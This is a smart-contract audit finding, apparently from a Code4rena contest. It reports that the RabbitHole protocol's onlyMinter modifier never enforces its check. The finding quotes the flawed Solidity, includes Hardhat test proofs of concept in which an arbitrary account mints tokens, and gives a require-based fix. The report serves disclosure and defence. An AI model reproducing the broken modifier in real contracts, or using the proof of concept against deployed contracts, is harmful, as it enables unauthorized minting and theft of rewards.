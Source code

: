 # Original link
https://github.com/code-423n4/2023-01-rabbithole-findings/issues/106
# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleReceipt.sol#L58-L61
https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleTickets.sol#L47-L50


# Vulnerability details

## Impact
The `RabbitHoleTickets` and `RabbitHoleReceipt` contracts contain an `onlyMinter` modifier which intends to restrict the access to token minting functions to privileged accounts only.

However the implementation of the  `onlyMinter` modifier is incorrect.
```solidity
    modifier onlyMinter() {
        msg.sender == minterAddress;
        _;
    }
```
The modifier does not revert the transaction when the required condition is `falsy`. As a result any account can mint any amount of tokens to any ethereum account.

#### Actual Impact
As `RabbitHoleTickets` and `RabbitHoleReceipt` are valuable tokens to the protocol, unrestrictive minting of these tokens can cause severe financial loss to the protocol and its users. The `RabbitHoleReceipt` tokens can be used to drain rewards  from `Quest` contracts.

## Proof of Concept
The below mentioned test cases were added to `./test/RabbitHoleReceipt.spec.ts ` file and ran using `npx hardhat test ./test/RabbitHoleReceipt.spec.ts ` command.
```typescript
  describe.only('RabbitHoleReceipt Bug', () => {
    it('any account can mint tokens', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const questId = 'abc';

      // Initial balance is 0
      expect(await RHReceipt.balanceOf(randomUser.address)).to.equal(0)

      // Mint via randomUser
      await RHReceipt.mint(randomUser.address, questId)

      // Tokens minted
      expect(await RHReceipt.balanceOf(randomUser.address)).to.equal(1)
    })
  })
```

The below mentioned test cases were added to `./test/RabbitHoleTickets.spec.ts ` file and ran using `npx hardhat test ./test/RabbitHoleTickets.spec.ts ` command.
```typescript
  describe.only('RabbitholeTickets Bug', () => {
    it('any account can mint tokens', async () => {
      const randomUser = (await ethers.getSigners())[10];
      const tokenId = 100;

      // Initial balance is 0
      expect(await RHTickets.balanceOf(randomUser.address, tokenId)).to.equal(0)

      // Mint via randomUser
      await RHTickets.mint(randomUser.address, tokenId, 10, '0x00')

      // Tokens minted
      expect(await RHTickets.balanceOf(randomUser.address, tokenId)).to.equal(10)
    })
  })
```

## Tools Used
Hardhat

## Recommended Mitigation Steps
Consider reverting on falsy result for the condition in the `onlyMinter` modifiers.
```solidity
    modifier onlyMinter() {
        require(msg.sender == minterAddress, "not minter");
        _;
    }
```